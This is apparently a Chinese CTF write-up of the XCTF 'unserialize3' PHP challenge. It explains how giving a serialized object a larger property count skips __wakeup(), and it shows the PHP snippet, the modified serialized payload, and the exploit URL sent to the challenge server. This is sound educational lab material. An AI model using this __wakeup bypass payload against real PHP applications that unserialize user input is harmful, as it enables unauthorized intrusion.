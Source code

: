 # unserialize3
## 题目描述
暂无  

## 思路
http://220.249.52.133:40231  
点开题目链接：  
![avatar](./picture/unserialize3_1.png)  
关键点就这俩，__wakeup() 函数的出现，大概率和反序列化漏洞有关。最后一行大概率是要在 url 中填充 GET 的值。  
我们先补全并运行一下代码，看看会输出什么：  
```php
<?php 
class xctf{
	public $flag = '111';
	public function __wakeup(){
		exit('bad requests');
	}
}
// 没有序列化函数，我们要加上，不然 __wakeup() 函数没啥用啊
$code = serialize(new xctf); 
echo $code;
?> 
```
输出：O:4:"xctf":1:{s:4:"flag";s:3:"111";}   
我们可以看到 O:4:"xctf":1:{s:4:"flag";s:3:"111";} 红色部分，表示 xctf 类中，只有一个属性。  
因此，修改这个输出：O:4:"xctf":2:{s:4:"flag";s:3:"111";} 并构造一个 url：  
http://220.249.52.133:40231/index.php?code=O:4:”xctf“:2:{s:4:”flag“;s:3:”111“;}  
得到 flag：  
![avatar](./picture/unserialize3_2.png)  

## 补充知识
1. __wakeup() 函数用法  
__wakeup() 是用在反序列化操作中。unserialize() 会检查存在一个 __wakeup() 方法。如果存在，则先会调用 __wakeup() 方法。  
2. __wakeup() 漏洞利用  
__wakeup() 漏洞与序列化字符串的属性个数有关。当序列化字符串所表示的对象，其序列化字符串中属性个数大于真实属性个数时就会跳过 __wakeup() 的执行，从而造成 __wakeup() 漏洞。  

